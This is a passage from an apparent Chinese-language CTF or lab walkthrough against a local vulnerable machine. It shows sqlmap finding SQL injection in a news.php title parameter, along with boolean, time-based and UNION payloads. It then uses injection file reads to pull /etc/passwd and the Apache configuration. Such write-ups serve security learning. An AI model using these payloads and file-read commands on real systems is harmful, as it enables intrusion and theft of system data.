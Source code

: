 这里的注入点在时间盲注，由于我已经知道了**news**的列数，可以返回到新闻主页进行联合注入。

（这里之前走了弯路，盲注会浪费很多时间。。。。

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing"  

---
Parameter: title (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: title=sing' AND 8471=8471 AND 'tXIm'='tXIm

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=sing' AND (SELECT 8023 FROM (SELECT(SLEEP(5)))QuwV) AND 'rjTs'='rjTs

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: title=sing' UNION ALL SELECT NULL,CONCAT(0x717a707871,0x7a6749484b6e754f74666a585a616d494d734a4776796e6f43724c4662434b6a65614d735a4b4745,0x7170707871),NULL-- -
---
```

可以读取文件，发现存在一个**he110wor1d**用户

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/etc/passwd

[*] /root/.local/share/sqlmap/output/192.168.56.116/files/_etc_passwd

[root@kali] /home/kali/singdancerap  
❯ cat /root/.local/share/sqlmap/output/192.168.56.116/files/_etc_passwd |grep /home
he110wor1d:x:1001:1001::/home/he110wor1d:/bin/bash
```

由于中间件是**Apache**，尝试读取配置文件

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/etc/apache2/apache2.conf
```
